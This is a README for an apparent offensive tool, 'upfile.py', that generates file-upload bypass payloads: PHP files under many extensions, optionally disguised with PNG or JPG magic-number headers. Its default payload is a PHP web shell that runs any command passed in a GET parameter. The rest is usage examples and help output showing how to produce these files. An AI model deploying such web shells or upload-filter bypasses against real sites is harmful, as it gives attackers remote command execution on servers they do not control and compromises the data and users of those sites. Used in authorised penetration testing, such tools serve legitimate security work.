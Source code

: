 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

```
python upfile.py
```
Generate in Payloads/ all extension for PHP

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

-----

## Exemple of usage :
```
python upfile.py -b
```
Generate all bypass for PHP


```
python upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


-----

## Options
```
usage: upfile.py [-h] [-d] [-p PAYLOAD] [-f {php}] [-ext EXTENSION] [-b] [-n NAME] [-m {png,jpg}]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Seen the debug to see the process
  -p PAYLOAD, --payload PAYLOAD
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext EXTENSION, --extension EXTENSION
                        Generate the payload with specific extension
  -b, --bypass          Bypass the restriction
  -n NAME, --name NAME  Name of the file
  -m {png,jpg}, --magic {png,jpg}
                        Magic Header
   ```                     
